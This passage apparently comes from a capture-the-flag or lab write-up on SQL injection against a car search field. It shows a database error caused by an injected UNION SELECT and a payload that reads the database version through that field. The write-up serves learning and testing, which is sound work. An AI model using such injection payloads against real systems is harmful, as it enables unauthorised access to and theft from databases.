 
- Well, we've found an error at the first column that state:
	- `ERROR:  invalid input syntax for integer: "a"
LINE 1: ...ect \* from cars where name ilike '%' UNION SELECT 'a',NULL,N...`

![1](13.png)

> If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:
> `Conversion failed when converting the varchar value 'a' to data type int.`

- The rest of it. Work Fine

## Foothold/Gaining Access

### The Version of database

- Let's get the database version by inserting this in search field:
- `' UNION SELECT NULL,VERSION(),NULL,NULL,NULL--`
- The result

